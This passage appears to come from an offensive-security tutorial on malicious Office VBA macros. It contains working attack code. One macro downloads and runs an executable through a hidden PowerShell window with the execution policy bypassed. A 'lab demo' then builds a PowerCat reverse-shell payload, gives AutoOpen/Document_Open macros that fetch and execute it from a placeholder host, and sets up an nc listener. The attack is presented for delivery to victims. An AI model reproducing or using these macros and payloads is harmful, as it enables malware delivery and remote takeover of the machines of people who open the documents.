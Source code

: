 ```vbnet
    psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Users\Admin\file.exe"";" & vbCrlf & _ "Start-Process -FilePath ""C:\Users\Admin\file.exe"""

    'execuring the powershell scripts using shell and hides the window for stealth
    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """", vbHide
End Sub
```

---

### VBA Macro reverse shell with Powercat

PowerCat is a PowerShell script that functions as a network tool similar to Netcat, designed specifically for the Windows environment. Like Netcat, PowerCat enables network communication and can be used for tasks such as port scanning, file transfers, reverse shells, and remote administration.

Some core features of PowerCat:

1. **Reverse and Bind Shells**: PowerCat can establish reverse or bind shells over TCP/UDP, allowing remote command execution on compromised machines.
2. **File Transfer**: It can transfer files over a network, making it practical for moving scripts or files during an engagement.
3. **Port Scanning**: PowerCat can scan for open ports, providing basic reconnaissance capabilities.
4. **Full PowerShell Integration**: Since it’s a PowerShell script, it integrates seamlessly with other PowerShell tools and cmdlets, often avoiding detection on systems where PowerShell logging is minimal.

### Lab Demo → Taking a shell using macro powershell code

```powershell
# Copy and paste this oneliner into your attacker machine terminal:
-----------------
LHOST=192.168.x.x
LPORT=8888
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p LPORT -e cmd.exe -ge" > /tmp/reverse-shell.txt
-----------------
# Navigate to /tmp/ => cd tmp
# host your reverse shell using python3 http server or whatever you want
# Now for the Macro ( Delivery as U Like! ) that will download and execute at the same time..
# =====================================================
Sub AutoOpen()
	powercat
End Sub
----------
Sub Document_Open()
	Powercat
End Sub
----------
Sub Powercat()
	Dim Str As String
	Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('https://yourHostedReverseShell.lol/reverse-shell.txt'); iex 'powershell -WindowStyle Hidden -E $code' """
	CreateObject("Wscript.shell").Run Str
End Sub
# =====================================================
# Back to your Attaker Machine, Set The Listener with => nc -nlvp 8888
# Once the Document and Macro Run ad everything goes right you will get a shell..
```
